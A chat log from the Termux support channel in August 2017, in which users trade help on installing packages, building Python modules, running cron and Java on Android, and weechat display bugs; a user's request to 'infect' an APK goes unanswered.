2017-08-10 21:16:05	adisib	Termux doesn't support KitKat? Why is that?

2017-08-10 21:17:18	adisib	It is very unfortunate. I will have to look for an alternative solution then.

2017-08-10 21:18:54	adisib	Is there any chance there is an older version that does and can be acquired?

2017-08-10 21:26:11	adisib	Nevermind, it looks like the packages wont be compatible even if the core app is. I enjoy it on my personal device at least.

2017-08-10 21:27:25	sdrausty	https://github.com/termux/termux-app/issues?utf8=✓&q=kitkat%20

2017-08-10 22:56:38	gitter	(suryapoo) Theres no passwd in /etc in termux?

2017-08-10 22:57:44	live_the_dream	android is single user

2017-08-10 22:58:28	gitter	(suryapoo) Cool..

2017-08-10 22:58:38	gitter	(suryapoo) Can i change the username?

2017-08-10 23:05:03	gitter	(suryapoo) Guys..theres a text file..and i set the permission as : chmod 400 (filename)..that means it is read only..but when i use rm ..it is deleted ..y?

2017-08-10 23:07:05	gitter	(suryapoo) Okay..i got it...read only prevents from writing and executing ..not deleting

2017-08-10 23:32:06	vishalbiswas	@Grimler91 I use Android 5 only.

2017-08-10 23:52:44	rods-tab3	sidetopic: requires android>=2.2   https://play.google.com/store/apps/details?id=com.gnuroot.debian

2017-08-11 01:12:00	imaami	hi, getting an error trying to run yle-dl installed via pip:

2017-08-11 01:12:13	imaami	"ImportError: Cannot import name 'download'"

2017-08-11 01:14:51	imaami	sorry for not having the full traceback, not going to hand-type it

2017-08-11 02:00:44	live_the_dream	imaami: use python 2

2017-08-11 02:00:44	live_the_dream	and then use pip2

2017-08-11 03:10:07	gitter	(suryapoo) Is there a bashrc file in termux

2017-08-11 03:10:19	gitter	(suryapoo) I did ls -a..but couldn't find any

2017-08-11 03:19:17	frumpylava	Does anybody know how I can install an npm package that claims unsupported OS? It claims valid OS' are "darwin,linux,win32", but having android it can't be installed.

2017-08-11 03:50:09	gitter	(Grimler91) @suryapoo you can create it. There isn't one in the home folder per default

2017-08-11 04:04:59	gitter	(suryapoo) Cool..thanks @Grimler91

2017-08-11 04:27:25	mr1404	~~

2017-08-11 06:59:35	gitter	(suryapoo) How to run ftp in termux

2017-08-11 07:15:30	gitter	(fornwall) @suryapoo an ftp client? install it with `pkg install inetutils`, then run `ftp`

2017-08-11 07:22:29	gitter	(suryapoo) Cool..thanks @fornwall

2017-08-11 08:47:51	jesusc	hiiiii

2017-08-11 08:48:22	jesusc	anyone have any idea for installing fpc ide and compiler in termux?/

2017-08-11 08:48:34	live_the_dream	recklessly accepting pull requests with no regard for human life?

2017-08-11 08:48:44	jesusc	oO

2017-08-11 08:48:57	jesusc	yeah.....

2017-08-11 08:49:23	fornwall	live_the_dream: :)

2017-08-11 08:50:02	frumpylava	live_the_dream: Well at least the vital package nyancat is finally available on termux.

2017-08-11 08:53:30	live_the_dream	we have made do with cheap imitators of nyanncat

2017-08-11 08:53:30	live_the_dream	no longer

2017-08-11 08:55:14	frumpylava	I finally upgraded to a 256 GB SD card :)

2017-08-11 08:56:04	fornwall	and cmatrix got a release after 15 years :)

2017-08-11 08:56:06	fornwall	https://github.com/abishekvashok/cmatrix/releases

2017-08-11 08:57:01	fornwall	damned, 256 GB SD cards. the future is now

2017-08-11 08:57:56	frumpylava	yeah. My phone has now the same amount of storage as my laptop.

2017-08-11 09:00:42	frumpylava	being able to pause cmatrix is pretty cool.

2017-08-11 09:20:18	sdrausty	frumpylava: Congratulations on your space upgrade! Keep your laptop off. Let's get Termux to work completely on device. 

2017-08-11 09:21:11	sdrausty	https://www.engadget.com/amp/2017/08/08/intels-push-for-petabyte-ssds-requires-a-new-kind-of-drive/

2017-08-11 09:26:00	frumpylava	sdrausty: To be fair I only use my laptop to connect to termux anyway.

2017-08-11 09:28:41	sdrausty	I can to a fairly simple conclusion last year. If I stop using "computers" and invest my time in Termux, I will be free from clunky laptop and its' cousin, the desktop. 

2017-08-11 09:28:58	sdrausty	can *came

2017-08-11 09:31:06	frumpylava	sdrausty: what about typing and big screen? How will you do that?

2017-08-11 09:34:52	frumpylava	I'm still searching for a way to phisically attach my phone to my laptop.

2017-08-11 09:35:28	sdrausty	frumpylava: This frame of thought has its' advantages and its' disadvantages too. It boils down to whether you want to have it discreetly in your pocket, or not. Big screen https://www.google.com/search?q=android+screen+projector

2017-08-11 09:36:23	imaami	live_the_dream: thanks, i forgot to check irc but figured it out myself. python3 still giving all sorts of trouble

2017-08-11 09:38:29	imaami	sdrausty: it's kind of funny that Google spent an enormous amount of R&D on converting GNU/Linux into a Java-infused mess, and now Termux has to undo the misstep inside it

2017-08-11 09:39:07	imaami	in the end i don't think anyone has any clue what the ultimate benefit was

2017-08-11 09:39:22	imaami	Android is nice, but it's also Frankenstein's manbearpig

2017-08-11 09:39:45	frumpylava	sdrausty: Well I still like the "Laptop" formfactor occasionally, and I am quite happy using termux attached to it. Connecting via ssh over usb is really convenient, especially since buying magnetic cables.

2017-08-11 09:40:09	imaami	i don't think it would've been impossible to add strict security domains to a normal GNU/Linux environment, what is the f*cking deal with the Java

2017-08-11 09:41:47	sdrausty	frumpylava: It takes a while to become proficient at Gboard. It does. I am still improving my multi-finger onscreen typing. The word suggestions feature is improving. Much like offline voice typing is too. 

2017-08-11 09:48:53	frumpylava	imaami: There was once a pull request with wine, but it has been closed without merging it. https://github.com/termux/termux-packages/pull/332

2017-08-11 09:50:37	sdrausty	imaami: Android is RPN (Reverse Polish Notation) at the UI and internals too.

2017-08-11 09:50:37	frumpylava	It was back when @fornwall really wanted people to create a 3rd party repo ;)

2017-08-11 09:51:40	live_the_dream	the java is so people can relas3 app ajd have it run on i686 arm and mips

2017-08-11 09:52:27	sdrausty	What OSes does Termux run on? Android, Chrome... Anything else?

2017-08-11 09:52:41	live_the_dream	that is it

2017-08-11 09:53:01	sdrausty	thx

2017-08-11 09:53:29	live_the_dream	no reason to use termux anywh34e els3

2017-08-11 09:54:31	live_the_dream	also google didn;t invest

2017-08-11 09:54:35	live_the_dream	it was nade and google bought

2017-08-11 09:55:31	live_the_dream	google just made it suck less

2017-08-11 09:57:48	frumpylava	I'm just still salty that dwarf fortress doesn't run on termux.

2017-08-11 09:58:39	frumpylava	I'm sure if it was open source it could easily be patched for termux.

2017-08-11 09:59:32	sdrausty	frumpylava: I don't like the battery life on notebooks. Nor do I like laptop inconspicuousness, for instance at a transit stop or at a park. 

2017-08-11 10:00:11	sdrausty	Does your weechat jump about with garbage onscreen too? 

2017-08-11 10:00:52	frumpylava	Occasionally weechat will do weird things when people use emoji for me.

2017-08-11 10:03:21	frumpylava	I really like the 'plug and play' aspect of my termux setup. When I am at a hackerspace I'll use termux connected to a laptop. When I am at work I'll use termux connected to my windows pc at work. When I am on the move I will use Termux with on the Phone directly.

2017-08-11 10:03:47	sdrausty	If Termux could load its' own kernel and libraries... live_the_dream?

2017-08-11 10:04:43	frumpylava	sdrausty: Why would it need to. If you can load your own kernal and libraries you might as well use a debian.

2017-08-11 10:06:42	sdrausty	flympylava: The Termux could run on Windows, iOS and more, kind of like wine.

2017-08-11 10:08:58	frumpylava	sdrausty: to load it's own kernel in windows it would need to run some kind of virtual machine. Which is when you can run debian instead again.

2017-08-11 10:09:57	sdrausty	on device please remmember in your pocket

2017-08-11 10:10:32	frumpylava	what?

2017-08-11 10:14:25	sdrausty	https://www.cultofmac.com/141909/run-windows-apps-on-your-mac-with-wine-video-how-to/

2017-08-11 10:15:25	frumpylava	sdrausty: But what would be the benefit of using termux on windows when you could run debian on windows?

2017-08-11 10:15:42	sdrausty	Termux should be able to run on more than 2 OSes. Namely iOS (tm) and Windows (tm)

2017-08-11 10:16:07	sdrausty	on tablet or smartphone

2017-08-11 10:19:27	_ishmael_	sorry all I don't have a persistent client, any one have any luck getting nvm [node version manger] to run

2017-08-11 10:19:34	sdrausty	This enhancement would morph Termux into what it is, plus an emulator.

2017-08-11 10:20:47	sdrausty	_ismael_: No command 'nvm' found...

2017-08-11 10:20:58	frumpylava	sdrausty: I guess this could be useful for some people, but it would be a huge technical challange.

2017-08-11 10:23:59	sdrausty	frumpylava: Yes it would be an enormous technical challenge; And with our meger resources we do have more important issues https://github.com/termux/termux-packages/issues

2017-08-11 10:24:20	frumpylava	sdrausty: indeed

2017-08-11 10:30:43	sdrausty	frumpylava: Which of these issues are really important? Does anyone know how to start a pool on Google+ ? 

2017-08-11 10:40:03	frumpylava	sdrausty: All my issues, of course :P

2017-08-11 10:40:15	gitter	(sdrausty) lol

2017-08-11 10:40:39	gitter	(sdrausty) pool *poll

2017-08-11 10:51:00	frumpylava	fornwall: damn, your on fire closing issues and PRsthese last few days

2017-08-11 10:51:11	frumpylava	;)

2017-08-11 10:54:28	gitter	(kuburan) hello everybody, i need help, i try to install John The Ripper. i type "make SHELL=$PREFIX/bin/sh" . i got error like this :

2017-08-11 10:54:32	gitter	(kuburan) gcc -DAC_BUILT -arch host  -DJOHN_aarch64 -c -g -O2 -DARCH_LITTLE_ENDIAN=1   -Wall -Wdeclaration-after-statement -fomit-frame-pointer -Wno-deprecated-declarations -Wformat-extra-args -Qunused-arguments -std=gnu89 -Wdate-time -D_POSIX_SOURCE -D_GNU_SOURCE -D_XOPEN_SOURCE=600  -I/data/data/com.termux/files/usr/include       -funroll-loops -DJTR_MODE -Wno-declaration-after-statement -std=c99 -c pp.c

2017-08-11 10:54:32	gitter	(kuburan) clang-4.0: error: unable to execute command: Segmentation fault                              clang-4.0: error: clang frontend command failed due to signal (use -v to see invocation)     clang version 4.0.1 (tags/RELEASE_401/final)                                                 Target: aarch64--linux-android

2017-08-11 10:54:32	gitter	(kuburan) Thread model: posix                                                                          InstalledDir: /data/data/com.termux/files/usr/bin                                            clang-4.0: note: diagnostic msg: PLEASE submit a bug report to http://llvm.org/bugs/ and include the crash backtrace, preprocessed source, and associated run script.                     clang-4.0: note: diagnostic msg:

2017-08-11 10:54:32	gitter	(kuburan) [full message: https://gitter.im/termux/termux?at=598dc5282723db8d5e956e88]

2017-08-11 10:55:16	gitter	(kuburan) Is it possible to install john in termux ?

2017-08-11 11:36:24	sdrausty	Garbage onscreen in weechat is very annoying making weechat close to useless. This was not the case a while ago...

2017-08-11 11:36:53	sdrausty	https://github.com/termux/termux-packages/issues/1252

2017-08-11 12:07:18	fornwall	sdrausty (or another weechat user): can you try ssh:ing into termux and run weechat, and check if you can reproduce the above mentioned problem there?

2017-08-11 12:07:41	fornwall	would be good to know if the problem is with the terminal emulator part, or the weechat program

2017-08-11 12:15:01	sdrausty	fornwal: less flickering in ssh than in bash

2017-08-11 12:15:17	sdrausty	ssh *ssh bash

2017-08-11 12:15:41	sdrausty	but 

2017-08-11 12:16:01	sdrausty	garbage in ssh bash connection too

2017-08-11 12:19:11	sdrausty	screenshots updated at https://github.com/termux/termux-packages/issues/1252

2017-08-11 12:50:32	parvathy	Cant update termux or download any package with wifi unless i use a vpn. anybody know why?

2017-08-11 13:08:49	u0_a81	hi

2017-08-11 13:08:57	jesusc	hiii

2017-08-11 13:09:23	jesusc	does anyone like pascal / know how to xinstall fpc on termux?

2017-08-11 13:09:42	jesusc	please

2017-08-11 13:25:15	sdrausty	jesusc: Hi. It appears that there is no package at present that install pascal.

2017-08-11 13:26:15	jesusc	i dont find it

2017-08-11 13:26:29	sdrausty	You can put in a papckage request at https://github.com/termux/termux-packages/issues/new

2017-08-11 13:27:21	jesusc	how can i know if there is  or not

2017-08-11 13:27:39	jesusc_	:/

2017-08-11 13:28:47	sdrausty	http://www.gnu-pascal.de/gpc/h-index.html might be easy to package

2017-08-11 13:29:04	sdrausty	jesusc_: https://github.com/termux/termux-packages/issues?utf8=✓&q=Pascal

2017-08-11 13:29:59	sdrausty	To create a package please see https://github.com/termux/termux-create-package

2017-08-11 13:31:34	u0_a81	well

2017-08-11 13:32:06	jesusc	that package doesnt exist (fpc)

2017-08-11 13:33:30	sdrausty	jesusc: Have you tried the links I posted for you? In short, there is no pascal in Termux at present.

2017-08-11 13:34:21	sdrausty	And in probably can be packaged using termux-create-package from source.

2017-08-11 13:34:53	sdrausty	in *it

2017-08-11 13:41:12	nobodyiswatching	Anybody successfully build dnscrypt with termux?

2017-08-11 13:55:56	gitter	(vishalbiswas) jesusc: you can use linux binaries from freepascal.org

2017-08-11 17:47:24	live_the_dream	hmm that is odd aarch64 can't build numpy ?

2017-08-11 18:23:59	sdrausty	live_the_dream: https://github.com/termux/termux-packages/issues?utf8=✓&q=numpy

2017-08-11 18:24:52	live_the_dream	its not there which i am here

2017-08-11 18:24:52	live_the_dream	is why

2017-08-11 18:25:14	sdrausty	live_the_dream: Are you building on device?

2017-08-11 18:26:02	live_the_dream	...

2017-08-11 18:26:54	sdrausty	a smartphone or a tablet running Android or Chrome?

2017-08-11 18:26:54	live_the_dream	im the guy who distributes numpy + scipy

2017-08-11 18:27:04	live_the_dream	...

2017-08-11 18:37:42	sdrausty	cool

2017-08-11 18:56:52	gitter	(sdrausty) live _the_dream: Any ideas on how to spread the word about using your smartphone as a peripherals integrated computer via Termux throughout the Internet? I have tried posting into related groups, like Linux, only to find my posts about Termux deleted.

2017-08-11 18:57:46	live_the_dream	don't do that

2017-08-11 18:58:25	live_the_dream	if you build it they will come

2017-08-11 18:58:25	live_the_dream	no one likes spam

2017-08-11 18:58:25	live_the_dream	okay can't build in normal shell

2017-08-11 18:58:26	live_the_dream	can work via ssh and tmux ...

2017-08-11 18:59:53	gitter	(sdrausty) live_the_dream: tnx Is it easy to misclassify spam, into spam?

2017-08-11 19:00:58	gitter	(sdrausty) live_the_dream: lol

2017-08-11 19:01:39	gitter	(sdrausty) "if you build it they will come"

2017-08-11 19:03:53	gitter	(sdrausty) Termux is far from the mainstream. Nobody has ever heard about it. I searched, and researched Linux on Android last year to stumble upon Termux.

2017-08-11 19:04:40	gitter	(sdrausty) https://www.google.com/search?q=linux+on+android

2017-08-11 19:07:37	gitter	(sdrausty) https://www.google.com/q=linux+on+android+site%3Atldp.org

2017-08-11 19:08:15	gitter	(sdrausty) https://www.google.com/search?q=linux+on+android+site%3Atldp.org

2017-08-11 19:10:00	gitter	(sdrausty) https://duckduckgo.com/?q=linux+on+android+site%3Atldp.org is much better at pointing toward Termux than Google, but still no Termux lead. Where's Termux?

2017-08-11 19:11:24	gitter	(sdrausty) Termux is one of the best kept secrets of 2017! Just as it was in 2016...

2017-08-11 19:13:53	gitter	(sdrausty) Plus we are hemoraging `rooted` by who knows what and whome tablet and smartphone users.

2017-08-11 19:32:02	sdrausty	http://www.tldp.org/en/Linux-Android-HOWTO/Linux-Android-HOWTO-6.html

2017-08-11 19:50:22	ghost_clown	hai

2017-08-11 19:51:12	sdrausty	https://en.m.wikipedia.org/wiki/List_of_Linux_distributions

2017-08-11 19:59:14	rods-tab3	termux second  https://www.google.com/search?q=terminal+android&ie=utf-8&oe=utf-8

2017-08-11 20:21:15	rod_yolo2	https://www.google.com/amp/s/www.xda-developers.com/termux-the-ultimate-linux-terminal-emulator-for-android-xda-spotlight/amp/

2017-08-11 21:24:10	gitter	(mklein994) Just a hunch, but I think `nodejs-current` is trying to create hard links. Anyone else have the error `cb() is never called!`? (What is `cb()` anyway?)

2017-08-11 21:24:34	gitter	(mklein994) It's preventing me from installing any packages.

2017-08-11 21:24:58	sdrausty	https://github.com/sdrausty/buildAPKs/issues/3

2017-08-11 21:25:26	sdrausty	#3

2017-08-11 21:25:26	sdrausty	Gradle Builds Usually Fail Using buildAPKs.

2017-08-11 21:25:26	sdrausty	Opened by sdrausty 5 days ago

2017-08-11 21:25:52	gitter	(mklein994) wat

2017-08-11 21:30:52	gitter	(sdrausty) @mklein994

2017-08-11 21:31:30	gitter	(sdrausty) Build//

2017-08-11 21:32:28	gitter	(mklein994) I'm talking about `nodejs`. What does building APKs on Android have to do with the price of beans? :confused:

2017-08-11 21:32:39	gitter	(sdrausty) Compile Termux in Termux buildAPKs cannot; Hence

2017-08-11 21:32:54	gitter	(sdrausty) https://github.com/sdrausty/buildAPKs/issues/3

2017-08-11 21:33:43	gitter	(mklein994) Still not following. Please explain. What's `buildAPKs`?

2017-08-11 21:33:46	gitter	(sdrausty) Well, great! I am glad to hear your talking about...

2017-08-11 21:34:04	gitter	(sdrausty) I am talking about

2017-08-11 21:34:29	gitter	(mklein994) This is starting to sound like one half of a phone conversation.

2017-08-11 21:34:44	gitter	(sdrausty) https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-08-11 21:35:23	gitter	(sdrausty) Which should build Termux on device (a smartphone), but doesn't.

2017-08-11 21:36:06	gitter	(sdrausty) @mklein994 How is node.js going for you on Termux?

2017-08-11 21:54:33	gitter	(sdrausty) Nice links; Thank you rod*

2017-08-11 21:56:51	sdrausty	$ apt list |grep node

2017-08-11 21:56:51	sdrausty	WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

2017-08-11 21:56:51	sdrausty	nodejs/stable,now 6.11.2 aarch64 [installed]

2017-08-11 21:56:51	sdrausty	nodejs-current/stable 8.2.1 aarch64

2017-08-11 21:56:51	sdrausty	nodejs-current-dev/stable 8.2.1 aarch64

2017-08-11 21:56:51	sdrausty	nodejs-dev/stable,now 6.11.2 aarch64 [installed]

2017-08-11 21:58:01	sdrausty	@mklein994 What do you want to do with nodejs?

2017-08-11 22:35:19	sdrausty	684 packages that are available https://sdrausty.github.io/pages/more

2017-08-11 23:19:18	aleph-	So, for the mods out there. Any chance of a port of docker?

2017-08-11 23:19:24	aleph-	s/mods/devs

2017-08-11 23:23:00	live_the_dream	not likely

2017-08-11 23:23:46	live_the_dream	requires kernel features

2017-08-11 23:38:34	aleph-	Ahhh

2017-08-11 23:38:38	aleph-	Damn. Oh well.

2017-08-12 04:48:27	gitter	(themastersunil) $ startfedora

2017-08-12 04:48:27	gitter	(themastersunil) [termux@fedora home]$ dnf update

2017-08-12 04:48:27	gitter	(themastersunil) ^C

2017-08-12 04:48:27	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=598ec0da2723db8d5e987a6f]

2017-08-12 04:49:04	gitter	(themastersunil) After dnf update command..not any response

2017-08-12 04:49:43	gitter	(themastersunil) I've wait at least 5 minute... No any update.........

2017-08-12 04:53:09	gitter	(themastersunil) $ cd weeman

2017-08-12 04:53:09	gitter	(themastersunil) $ ls

2017-08-12 04:53:09	gitter	(themastersunil) LICENSE    README.md  core       weeman.py

2017-08-12 04:53:09	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=598ec1f41c8697534aae9557]

2017-08-12 04:58:54	gitter	(Auxilus) `tar: can't create node kali-arm64/dev/random: Operation not permitted`

2017-08-12 05:17:01	gitter	(Auxilus) cr4shcod3 got kalifs working in termux, so do I..

2017-08-12 05:45:35	poyntz	hi all. is there any way  to PIN protect termux or do you have to use another app?

2017-08-12 10:32:21	NonaSuomy	https://nonasuomy.github.io/android-file-sync/

2017-08-12 10:34:32	NonaSuomy	Made a script with termux to sync files with rsync to nas

2017-08-12 10:37:09	NonaSuomy	I just have to figure out crontab wonder if there is much battery drain using crond in busy box

2017-08-12 11:03:12	sdrausty	NonaSuomy: Cronrab doesn't drain the battery much by itself. It depends what you tell crontab to do.

2017-08-12 11:25:38	theHaggster	Hi. Does anyone know how to fix apt checksum mismatch errors that suddenly come up? I've tried apt clean, I've tried deleting the contents of /var/lib/apt/lists, I've even tried to add a 99conf file in /etc/apt/apt.conf that would override any checksum checks, but I keep getting the error.

2017-08-12 11:26:02	theHaggster	apt.conf=apt.conf.d

2017-08-12 11:27:38	theHaggster	this is the error that keeps coming up for any apt or pkg command: "Failed to fetch http://termux.net/dists/stable/main/binary-arm/Packages.xz  Hash Sum mismatch"

2017-08-12 11:30:36	gitter	(Ashish882) Hi

2017-08-12 11:31:26	gitter	(Ashish882) I want to MV one file to /system/bin without root in termux any trick

2017-08-12 11:31:42	gitter	(Ashish882) @vishalbiswas

2017-08-12 13:21:15	NonaSuomy	Anyone know about that above, client died

2017-08-12 13:42:16	NonaSuomy	sdrausty: thanks

2017-08-12 13:45:01	NonaSuomy	sdrausty: can you use crontab in termux without busy box?

2017-08-12 13:51:46	sdrausty	NonaSuamy: $ which crontab

2017-08-12 13:52:11	sdrausty	NonaSuamy: /data/data/com.termux/files/usr/bin/applets/crontab

2017-08-12 13:52:43	sdrausty	NonaSuamy: $ ls -al /data/data/com.termux/files/usr/bin/applets/crontab

2017-08-12 13:53:10	sdrausty	NonaSuamy: lrwxrwxrwx 1 u0_a93 u0_a93 10 Aug 11 09:42 /data/data/com.termux/files/usr/bin/applets/crontab -> ../busybox

2017-08-12 13:57:16	sdrausty	NonaSuamy: crontab is busybox

2017-08-12 14:39:22	gitter	(NonaSuomy) @sdrausty  I was reading this comment "the issue with crond is that it could be terminated in the background unless a wake lock is held. However, always holding a wake lock means that the CPU is always awake, even if there's nothing to do. "

2017-08-12 14:55:29	bobloblaw_	I'm not sure if this is the right place to ask, but I'm having trouble getting a rails server to run in Termux

2017-08-12 14:59:52	gitter	(sdrausty) @NonaSuomy try termux

2017-08-12 15:00:59	gitter	(sdrausty) $ termux-wake-lock and see if you like it. I use it to keep crond awake on a smartphone.

2017-08-12 15:45:13	gitter	(vishalbiswas) @Ashish882 not possible

2017-08-12 15:56:30	gitter	(NonaSuomy) @sdrausty is there anything that lets the phone sleep until an event then go back to sleep

2017-08-12 16:02:50	gitter	(NonaSuomy) After the event

2017-08-12 16:06:00	gitter	(NonaSuomy) Like I want to run my backup script at 12am everyday

2017-08-12 16:59:53	gitter	(AshleyNykiel) Error installing pylibmc (python3),  already have memcached and memcached-dev installed, any workarounds?

2017-08-12 16:59:53	gitter	(AshleyNykiel)

2017-08-12 16:59:53	gitter	(AshleyNykiel) In file included from src/_pylibmcmodule.c:34:

2017-08-12 16:59:53	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=598f6c48162adb6d2eed0c5f]

2017-08-12 21:12:53	sdrausty	pull requests welcome https://github.com/sdrausty/buildAPKs/pulls

2017-08-12 21:16:55	sdrausty	Gitter / IRC bot is down again. Please fix it. It is important for us. 

2017-08-12 21:21:12	rods-tab3	gitter showed be banned;  he posts way too much

2017-08-12 21:24:25	live_the_dream	i think he has multiple personality disorder as well

2017-08-12 21:26:26	rods-tab3	me too;  as well as senelity and dementia  -- what did you just say ?

2017-08-12 21:29:52	fornwall	the gitter/irc bot will be up in a couple of hours (it got banned from freenode temporarily)

2017-08-13 00:31:10	lunaMoon	What do I do first?

2017-08-13 00:31:33	lunaMoon	I just got the app,  and need to know what to do first

2017-08-13 00:34:16	rods-tab3	type:  apt install man

2017-08-13 00:38:18	rods-tab3	then read ALL of:   https://termux.com/help.html

2017-08-13 00:39:15	rods-tab3	then join the #termux IRC channel on freenode.net

2017-08-13 02:22:48	frumpylava	live_the_dream: Yeah, what should I check?

2017-08-13 02:24:20	live_the_dream	compiling a python module thst has c etc..

2017-08-13 02:24:21	live_the_dream	it fails on my device unless im using tmux

2017-08-13 02:25:22	live_the_dream	or login via ssh

2017-08-13 02:26:02	frumpylava	live_the_dream: that sounds so weird.

2017-08-13 02:26:23	frumpylava	live_the_dream: but sure. can you give me a test case?

2017-08-13 02:35:20	imaami	maybe something about the environment variables?

2017-08-13 02:35:50	imaami	it could be that a different set of bashrc or profile scripts are sourced depending on login method

2017-08-13 02:48:45	live_the_dream	pip install numpy should fail

2017-08-13 02:48:45	live_the_dream	like at first check

2017-08-13 02:48:59	live_the_dream	it could be several things

2017-08-13 03:01:28	imaami	live_the_dream: maybe the configure script uses a shell variable (like $SHELL maybe) to find out the shell command, and if the variable is unset it defaults to /bin/bash

2017-08-13 03:02:02	imaami	live_the_dream: i had that happen to me recently. termux-fix-shebang can't fix that sort of thing because it only changes the #!/... line

2017-08-13 03:08:19	live_the_dream	no

2017-08-13 03:09:06	live_the_dream	i tested env variables already

2017-08-13 03:26:05	frumpylava	live_the_dream: you're right. it works in tmux, but not without. e

2017-08-13 04:00:56	live_the_dream	thanks

2017-08-13 04:02:58	live_the_dream	fornwall: python aarch64 at least fails compiling numpy but works using tmux ... possibly ncurses related?

2017-08-13 04:07:02	gitter	(suryapoo) Guys..anyone with arm assembly

2017-08-13 04:07:14	gitter	(suryapoo) Experience?

2017-08-13 04:57:33	imaami	live_the_dream: weird

2017-08-13 05:51:00	fornwall	live_the_dream: it's different if you compile under tmux or not? is this on-device or when cross compiling using termux-packages?

2017-08-13 06:03:58	live_the_dream	on devic3

2017-08-13 06:05:00	live_the_dream	its why i asked frumpylava to check

2017-08-13 06:24:38	lazymonster	Hi everyone

2017-08-13 06:24:48	lazymonster	I am new to termux.

2017-08-13 06:24:58	lazymonster	I can't run mklink

2017-08-13 06:25:19	live_the_dream	hello

2017-08-13 06:25:30	lazymonster	Can anyone help me out.?

2017-08-13 06:25:32	lazymonster	Hi

2017-08-13 06:25:39	sdrausty	ln -s

2017-08-13 06:25:46	sdrausty	hello

2017-08-13 06:26:22	lazymonster	Wow.. Thanx sdrausty

2017-08-13 06:26:26	sdrausty	man ln

2017-08-13 06:26:43	sdrausty	your welcome

2017-08-13 06:27:36	lazymonster	Should have come here earlier :/

2017-08-13 06:29:30	sdrausty	glad your here lazymonster:

2017-08-13 06:42:44	lazymonster	Has anyone tried to run swift in termux?

2017-08-13 07:02:23	gitter	(suryapoo) Anyone has been able to run java on termux?

2017-08-13 07:21:37	sdrausty	@surapoo https://github.com/termux/termux-packages/issues?utf8=✓&q=java

2017-08-13 07:32:39	gitter	(suryapoo) @sdrausty ..thanks

2017-08-13 07:32:40	gitter	(suryapoo) Man

2017-08-13 08:01:51	sdrausty	@surapoo Your Welcome 😉

2017-08-13 08:56:19	u0_a157	+quit

2017-08-13 08:58:36	gitter	(Ashish882) Anybudy clear tell how to install java in termux without root

2017-08-13 09:08:15	lazymonster	I tried to run java in termux.

2017-08-13 09:08:45	lazymonster	I installed ecj (apt install ecj).

2017-08-13 09:09:39	lazymonster	And I successfully generated class file. (ecj file.java)

2017-08-13 09:12:09	lazymonster	I am not sure about next steps. :/

2017-08-13 09:20:47	sdrausty	lazymoster: Give https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice and let us know your opinion.

2017-08-13 09:20:58	lazymonster	Okay I installed dx and converted class to jar

2017-08-13 09:21:13	lazymonster	Now how do I execute this?

2017-08-13 09:23:00	lazymonster	Wow. Just saw the link.

2017-08-13 09:23:03	lazymonster	Its great.

2017-08-13 09:23:11	sdrausty	lol

2017-08-13 09:24:14	lazymonster	Can you tell me how to execute java code?

2017-08-13 09:24:40	lazymonster	In cli. There isn't much.

2017-08-13 09:27:57	sdrausty	https://github.com/termux/termux-packages/issues?utf8=✓&q=run%20jar%20java 

2017-08-13 09:36:54	lazymonster	I didn't get it.

2017-08-13 09:38:11	lazymonster	That page is only showing issues

2017-08-13 09:43:05	gitter	(sdrausty) There are still problems with java, it seems.

2017-08-13 09:53:26	gitter	(NonaSuomy) Is there anything in termux that would allow the mobile device to sleep and then wakeup at a specific time, run a script then go back to sleep?

2017-08-13 11:19:57	gitter	(suryapoo) Guys...i want to learn reverse engineering..can i do

2017-08-13 11:20:19	gitter	(suryapoo) it in termux with the help of pacakages : as,

2017-08-13 11:21:10	gitter	(suryapoo) really excited

2017-08-13 11:30:59	gitter	(Ashish882) @sdrausty yes....

2017-08-13 11:39:06	gitter	(Ashish882) I want to run it to decomile the apk can I do with your script

2017-08-13 11:39:15	gitter	(Ashish882) Or infect the apk

2017-08-13 11:54:33	gitter	(sdrausty) @Ashish882 Simply building APKs.

2017-08-13 12:46:41	gitter	(Ashish882) Tell how I can infecte the apk

2017-08-13 15:14:34	Pagankiki	Hello i have a question?

2017-08-13 15:16:42	Pagankiki	In anyone even here?

2017-08-13 15:58:00	Pagankiki	I need help

2017-08-13 15:58:06	Pagankiki	what do i do first

2017-08-13 16:04:12	sdrausty	?

2017-08-13 16:06:34	Pagankiki	So, i just got the app, trying to get apps for it, more specifically, How do i add other repositireoes?

2017-08-13 16:10:56	sdrausty	https://termux.com/package-management.html

2017-08-13 16:12:44	sdrausty	https://sdrausty.github.io/pages/more

2017-08-13 16:12:50	Pagankiki	Ill check it out, also, why can i get the app to run in a emulator?

2017-08-13 16:13:18	Pagankiki	when i use it, it says to use PKG instead of APT

2017-08-13 16:13:55	Pagankiki	I have to go,

2017-08-13 16:14:00	sdrausty	pkg or apt not much diff

2017-08-13 16:14:33	Pagankiki	okay

2017-08-13 16:16:08	sdrausty	discussion about pkg and apt https://plus.google.com/+AyushSingh1325/posts/4YAddNZndDx

2017-08-13 16:17:24	sdrausty	 `pkg` is a wrapper for `apt` just like `packages` is. It should not make much difference which one you choose to use. `dpkg` is a little different, and it is also used for package management. 

2017-08-13 19:15:14	u0_a488	whois

2017-08-13 19:26:36	Pagankiki	Hello, is it possible to put a GUI on the app?

2017-08-13 20:22:36	sdrausty	 Pagankiki: What kind of GUI do you have in mind?

2017-08-13 20:36:43	rods-tab3	windows 7

2017-08-13 20:36:58	rods-tab3	64 bit

2017-08-13 22:01:09	sdrausty	windows 95 not 98

2017-08-13 22:35:13	luna__	Its me, pagan using a diff PC, i was thinking  a easy package manager,

2017-08-13 22:35:55	luna__	Like soemthing like the Ubuntu UNITY Gnome desktop

2017-08-13 22:45:04	rods-tab3	windows 3.11 wfwg  -- better yet,  Can we run android under termux ?

2017-08-13 22:45:12	luna__	wut?

2017-08-13 22:49:49	luna__	i just want, a touchscreen complient UI to make managing my installs easiar

2017-08-13 23:05:23	rods-tab3	do you have termux widgets ? it allows a widget window to select tasks

2017-08-13 23:05:52	gitter	(sdrausty) Look people, we have a GUI. It's Android. Can you control Android without CLI?

2017-08-13 23:06:47	luna__	no i dont, can i have a link to that?

2017-08-13 23:06:55	luna__	or directions?

2017-08-13 23:07:11	gitter	(sdrausty) Why would anyone want to make a GUI in a GUI?

